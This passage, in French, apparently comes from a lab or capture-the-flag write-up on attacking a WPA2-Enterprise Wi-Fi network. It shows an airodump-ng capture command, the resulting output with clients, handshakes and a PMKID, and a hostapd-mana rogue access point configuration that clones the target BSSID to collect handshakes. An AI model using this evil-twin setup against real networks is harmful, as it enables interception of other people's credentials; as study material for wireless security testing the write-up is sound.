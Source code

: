 Cette fois je découvre qu'un réseau `wifi-college` existe (ce n'est pas celui que j'ai défini). Je note le BSSID, les channels utilisés et je relance `airodump` :

```bash
sudo airodump-ng --band abg --channel 36,40,44 -w /tmp/capture wlan0mon
```

Cette fois, j'ai bien des clients qui se connectent à mon AP et je parviens même à obtenir des handshakes (sans nécessairement provoquer de `DeAuth`) :

```
 CH 40 ][ Elapsed: 1 min ][ 2025-05-13 12:48 ][ WPA handshake: F0:9F:C2:71:22:16 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 F0:9F:C2:71:22:15  -28      288        0    0  44   54e  WPA2 CCMP   MGT  wifi-college                                                                                                                          
 F0:9F:C2:71:22:17  -28      286        0    0  40   54e  WPA2 CCMP   MGT  wifi-college                                                                                                                          
 F0:9F:C2:71:22:16  -28      291       37    0  36   54e  WPA2 CCMP   MGT  wifi-college                                                                                                                          

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 F0:9F:C2:71:22:16  64:32:A8:07:6C:43  -29    0 -54e     0        9         wifi-college                                                                                                                          
 F0:9F:C2:71:22:16  64:32:A8:07:6C:41  -29    0 - 6      0        1         wifi-college                                                                                                                          
 F0:9F:C2:71:22:16  64:32:A8:07:6C:42  -29    6e-18e     0       33  PMKID  wifi-college                                                                                                                          
 F0:9F:C2:71:22:16  64:32:A8:07:6C:40  -29    0 -54e     0        9         wifi-college
```

À ce stade mon fichier MANA qui déclare l'AP ressemblait à ceci :

```
interface=wlan1
ssid=wifi-college
hw_mode=a
channel=36
bssid=F0:9F:C2:71:22:16

auth_algs=1
wpa=2
wpa_key_mgmt=WPA-EAP
rsn_pairwise=CCMP

mana_wpaout=/tmp/wifi-college.hcapx
```
